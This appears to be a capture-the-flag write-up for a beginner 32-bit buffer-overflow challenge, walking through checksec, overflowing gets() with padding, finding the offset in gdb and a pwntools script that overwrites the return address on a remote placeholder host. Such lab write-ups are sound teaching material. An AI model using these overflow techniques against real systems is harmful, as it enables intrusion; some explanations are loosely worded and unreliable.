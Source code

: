 # B/E 1
## Description
Let's start off simple, can you overflow the correct buffer?

### Two files were comrades in the challenge. (vuln.c , vuln)
### vlun.c
<img src="https://github.com/q5fj/Pwn/assets/88992167/76c5aa29-ee1d-4098-bd72-92e7207f575c">

We note that in the code the binary file will not work unless the binary file path contains a file named flag.txt
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a7f786c-8fbc-4524-832f-c38b7a61fcf3">

Also notice we have "gets" in the user input 
 
#### gets - get a string from standard input (DEPRECATED)
<img src="https://github.com/q5fj/Pwn/assets/88992167/0ae608e9-5726-4212-8449-47e2ea331cb7">

#### Now that have analyzed the source, let us move to the binary file:
### vuln
#### Command :-
```
$ file vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b59e5e3-38cb-4508-926f-0961f43efe8e">

The file is 32 bit, let's check the security features : 
#### Command :-
```
$ checksec vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/598555c8-43eb-48d6-a71e-04da7dcd334e">

No stack canary, assume BOF.

Let's run the file and see what happens.
#### Don't forget to create a flag.txt file for the binary to work :-
```
echo "Flag{1234567890}" > flag.txt
```
and run the file:-
```
$ ./vuln
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/1c98a2ec-7e8c-41d5-ab81-c8d787f95f6b">

We also see the user input and the program exits :)

If we remember that it uses the `gets` function, which is a dangerous function that leads to a buffer overflow because it does not read user input.

Let's try to enter a byte higher than 100
```
$ python -c 'print("A" * 150)' | ./vuln
```
We notice that the program printed the contents of the flag.txt file.

<img src="https://github.com/q5fj/Pwn/assets/88992167/b67559bb-9639-4f40-998d-bc256754b291">



#### Now let's start examining the file closely :)

I will use gdb tool
```
$ gdb ./vuln -q
```
I will display the functions inside the file 
#### Command :-
```
gef➤ info functions
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/dc92ea00-d1dd-462f-9b60-d86e3432bb0e">


Let's start by analyzing the main function
#### Command :-
```
gef➤ disassemble main 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b24c7ef-295f-4493-b27e-7d0b74cd88cd">

#### So our function is main :)

Now we need the appropriate offset:-
#### Command :-
```
gef➤  pattern create 150
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a1d8ee4-6bae-467f-a5d4-850eb59e6116">

We have EIP record $eip

<img src="https://github.com/q5fj/Pwn/assets/88992167/8257bcdf-f49a-4c0b-8c2d-34813426a897">

Now let's extract offset 
#### Command :-
```
gef➤  pattern offset haaa
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/459b9456-3cbc-4cc0-bba9-0dafbd737a3e">

### Let's Start Exploiting 
```
import shutup; shutup.please()
from pwn import *

# elf = context.binary = ELF('./vuln')
# io = elf.process()

host = <HOST>
port = <PORT>
io = remote(host, port)

offset = 25

payload = b''
payload += b'A' * offset
payload += p32(0x1353) # Address for vuln function

io.recv()
io.sendline(payload)
io.interactive()

```
### Then run the exploit and it will print the flag :)
```
$ python exploit.py
```





